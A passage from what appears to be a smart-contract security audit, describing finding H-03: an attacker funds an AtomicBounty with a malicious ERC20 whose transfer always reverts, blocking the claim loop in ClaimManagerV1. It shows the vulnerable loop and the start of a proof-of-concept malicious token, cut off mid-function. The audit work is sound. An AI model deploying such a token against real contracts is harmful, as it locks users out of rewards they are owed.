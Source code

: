 ## Recommendation
Check the amount > 0 before transferring 

***************************
***************************
# [H-03] Attacker can fund malicious tokens to make competitor unable to claim their reward. 

## Summary
In AtomicBounty, when paying the reward for closer, the bounty needs to loop through the entire `tokenAddress[]` array. So if there is a failed transfer in a iteration, the entire process will revert. 
```solidity=
// contract: ClaimManagerV1.sol 

function _claimAtomicBounty(
    IAtomicBounty _bounty,
    address _closer,
    bytes calldata _closerData
) internal {
    _eligibleToClaimAtomicBounty(_bounty, _closer);

    /// [#explain] claim ERC20  
    for (uint256 i = 0; i < _bounty.getTokenAddresses().length; i++) {
        uint256 volume = _bounty.claimBalance(
            _closer,
            _bounty.getTokenAddresses()[i] /// [$audit-med] out-of-gas here  
        );

        /// ...
    }

    /// [#explain] claim ERC721
    /// ... 
}
```
Since the bounty allows funders to deposit into the bounty unwhitelisted tokens if the token addresses is not reached, attacker can abuse this techinique by creating a malicious ERC20 token. This malicious token will revert when transferring from bounty to user, which will make a iteration in the loop of function `ClaimManagerV1._claimAtomicBounty` failed then make the whole function call revert. 

## Vulnerability Detail
Attacker can deploy a malicious ERC20 which reverts every `transfer()` call (not `transferFrom()`) like below: 
```solidity=
pragma solidity 0.8.17;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

contract MockMaliciousERC20 is ERC20 {
    address public admin;

    constructor() ERC20('Mock MAL', 'mMAL') {
        _mint(msg.sender, 10000 * 10**18);
        admin = msg.sender;
    }
    
    /// [#explain] revert every transfer tx 
    function transfer(address to, uint256 amount) public virtual override returns (bool) {
        require(0 == 1, "Iam a malicious ERC20");
```